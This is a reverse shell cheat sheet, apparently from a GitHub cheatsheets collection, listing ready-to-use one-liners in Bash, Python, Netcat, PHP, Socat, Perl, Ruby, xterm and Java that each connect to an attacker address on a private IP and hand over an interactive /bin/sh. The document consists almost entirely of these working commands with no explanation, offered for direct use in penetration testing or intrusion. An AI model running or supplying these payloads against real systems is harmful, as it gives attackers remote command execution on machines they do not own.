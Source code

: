 # Reverse Shell Cheat Sheet

### Bash
```
bash -i >& /dev/tcp/192.168.0.1/8080 0>&1
```

### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Netcat
```
nc -e /bin/sh 192.168.0.5 4444
```

### PHP
```
php -r '$sock=fsockopen("192.168.0.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Socat
```
socat tcp-connect:192.168.0.5:4444 system:/bin/sh
```

### Perl
```
perl -e 'use Socket;$i="192.168.0.5";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Ruby
```
ruby -rsocket -e'f=TCPSocket.open("192.168.0.5",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### xTerm
```
xterm -display 192.168.0.5:4444
```

### Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5< >/dev/tcp/192.168.0.5/4444;cat <& 5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

---
:::info
[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)
:::